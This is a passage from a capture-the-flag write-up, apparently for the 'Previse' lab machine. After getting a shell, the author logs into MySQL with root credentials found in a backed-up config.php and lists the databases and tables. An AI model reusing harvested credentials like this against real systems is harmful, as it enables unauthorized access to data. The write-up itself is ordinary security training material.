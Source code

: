 Executing `whoami` yields `www-data`, as expected.

## Searching for USER, SYSTEM Flags
### Connecting to the SQL Database
The primary incentive behind gaining shell access was to connect to the SQL database using the `root:mySQL_p@ssw0rd!:)` credential set found in the site backup under config.php. Let's see if those credentials work as expected:
```none
$ mysql -u root -p
Enter password: mySQL_p@ssw0rd!:)
```
```none
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 1434
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> use previse;
use previse;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.01 sec)

mysql> 
```
